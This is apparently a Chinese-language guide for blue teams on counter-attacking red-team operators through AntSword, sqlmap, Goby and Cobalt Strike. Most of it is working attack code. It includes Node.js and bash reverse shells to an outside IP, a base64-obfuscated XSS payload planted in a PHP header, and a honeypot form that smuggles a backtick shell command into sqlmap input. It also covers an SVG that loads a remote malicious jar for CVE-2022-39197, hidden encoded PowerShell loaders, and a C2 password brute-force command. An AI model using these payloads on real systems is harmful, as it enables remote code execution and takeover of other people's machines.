 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。


## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限
## **SQLMAP反制**

蓝队提前构造注入页面诱使红队进行 sqlmap 注入拿到红队机器权限原理

复现环境：

* 蓝队：Linux Web
* 红队：Linux sqlmap

原理：

命令管道符``：
```
linux： ping   "`ls`"     先执行ls当为命令作为参数，再执行ping
Windows： ping | dir     先执行ping，再执行dir
```
构造注入点页面固定注入参数值，等待攻击者进行注入
参数中有``执行反弹shell命令
```
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`dir`"
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`exec /bin/sh 0</dev/tcp/47.94.236.117/2333 1>&0 2>&0`"
```
> 任意sqlmap版本，注意当前操作系统的管道符进行替换即可
    
实战操作：
1、测试反弹编码
```
bash -i >& /dev/tcp/47.94.236.117/2333 0>&1 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYxechoYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i
```

2、蓝队构造页面test.php注入页面固定参数值
```
<html>
<head>
    <meta charset="utf-8">  
    <title> A sqlmap honeypot demo</title>
</head>
<body>
 <input>search the user</input>   <!--创建一个空白表单-->
 
 <form action="pass.php" method="post" enctype="text/plain">
  
  <!--创建一个隐藏的表单-->
  <input type='hidden' name='name' value="Lucy&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"/> 
  <!--创建一个按钮，提交表单内容-->
  <input type="submit" value='提交'>
 
 </form>
 
</body>
</html>
```

3、红队攻击者进行注入测试
没有观察就直接执行命令，导致执行了反弹shell命令。
```
sqlmap -u "http://xx.xx.xx.xx/test.php" --data "name=xiaodi&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"
```

## **漏洞扫描工具Goby反制**
Goby客户端也是有nodejs环境。
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 Goby

测试的JS文件
> 1.js
```
(function(){
require('child_process').exec('calc.exe');
})();
```

RCE:
> index.php
```
<?php
header("X-Powered-By: PHP/<img src=1 onerror=import(unescape('http%3A//127.0.0.1/2.js'))>");
?>
<head>
<title>TEST</title>
</head>
<body>
testtest
</body>
</html>
```

> 2.js里面那串是CS生成的powershell命令上线脚本
>红队扫描到这个有php的网址
> 查看资产就会上线

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD......RQBuAGQAKAApADsA');
})();
```

## **远程控制工具CobaltStrike反制**
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 

对抗Cobaltstrike中的手段：
### **1、伪造流量让cs批量上线假的(欺骗防御，恶搞)**
链接：https://mp.weixin.qq.com/s/VCRg6F9Wq-yg-qajDoJuaw 

### **2、利用漏洞(CVE-2022-39197)**
> Cobalt Strike<=4.7 xss2rce
复现文章：<https://blog.csdn.net/qq_44110340/article/details/130731647>

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

* 获取真实ip地址
* 获取NTLM
* RCE
* SSRF

链接：https://github.com/its-arun/CVE-2022-39197
修改EXP里面的代码，EvilJar/src/main/java/Exploit.java，如执行命令，后编译成.jar

修改svg文件中加载地址：evil.svg指向url地址为公网的EvilJar-1.0-jar-with-dependencies.jar
```
<svg xmlns="http://www.w3.org/2000/svg"xmlns:xlink="http://www.w3.org/1999/xlink"version="1.0"><script type="application/java-archive"xlink:href="http://47.94.236.117:8888/EvilJar-1.0-jar-with-dependencies.jar*/><text>CVE-2022-39197</text></svg>
```
可以用python开启访问web服务：
```
python -m http.server 8888
```
执行EXP，自动运行后门上线，攻击者客户端进入列表查看进程时触发命令执行。
```
python cve-2022-39197.py 木马.exe http://47.94.236.117:8888/evil.svg
```

### **3、反制Server服务器,爆破密码（通用)**
针对没有采用隐匿C2地址的技术（cdn，云函数）导致的反制（后门样本被溯源到C2地址）。

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

链接：https://github.com/ryanohoro/csbruter
爆破服务端密码：
```
python csbruter.py 127.0.0.1:50050 pass.txt
```
爆出密码即可在cs本地端连接对方服务器。

